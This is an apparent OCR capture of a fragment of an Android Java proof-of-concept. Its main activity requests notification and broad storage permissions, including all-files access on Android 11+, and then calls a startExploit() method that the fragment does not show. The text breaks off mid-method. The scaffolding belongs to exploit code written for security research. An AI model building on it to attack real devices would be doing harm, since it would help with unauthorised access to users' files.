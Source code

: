```java
    private static final int NOTIFICATION_PERMISSION_CODE = 102;  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        Log.i("PoC", "MainActivity created");  
  
        // get notifications  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.TIRAMISU) {  
            if (ContextCompat.checkSelfPermission(this, Manifest.permission.POST_NOTIFICATIONS)  
                    != PackageManager.PERMISSION_GRANTED) {  
                Log.i("PoC", "Req POST_NOTIFICATIONS...");  
                ActivityCompat.requestPermissions(this,  
                        new String[]{Manifest.permission.POST_NOTIFICATIONS},  
                        NOTIFICATION_PERMISSION_CODE);  
                return; // wait  
            }  
        }  
        // verify perms  
        if (hasStoragePermissions()) {  
            Log.i("PoC", "perms granted, starting exploit");  
            startExploit();  
        } else {  
            Log.i("PoC", "no perms, requesting...");  
            requestStoragePermissions();  
        }  
    }  
    private boolean hasStoragePermissions() {  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
            // android 11+  
            return Environment.isExternalStorageManager();  
        } else if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.M) {  
            // android 6-10  
            return ContextCompat.checkSelfPermission(this, Manifest.permission.READ_EXTERNAL_STORAGE) == PackageManager.PERMISSION_GRANTED &&  
                    ContextCompat.checkSelfPermission(this, Manifest.permission.WRITE_EXTERNAL_STORAGE) == PackageManager.PERMISSION_GRANTED;  
        } else {  
            // android <= 5  
            return true;  
        }  
    }  
    private void requestStoragePermissions() {  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
            // android 11+ - MANAGE_EXTERNAL_STORAGE  
            Log.i("PoC", "req MANAGE_EXTERNAL_STORAGE for android 11+");  
            try {  
                Intent intent = new Intent(Settings.ACTION_MANAGE_APP_ALL_FILES_ACCESS_PERMISSION);  
                intent.setData(Uri.parse("package:" + getPackageName()));  
                startActivityForResult(intent, MANAGE_STORAGE_CODE);  
            } catch (Exception e) {  
                Log.e("PoC", "failed to request MANAGE_EXTERNAL_STORAGE", e);  
                // fallback  
                requestLegacyPermissions();  
            }  
        } else {  
            // android 6-10  
            requestLegacyPermissions();  
        }  
    }  
    private void requestLegacyPermissions() {  
```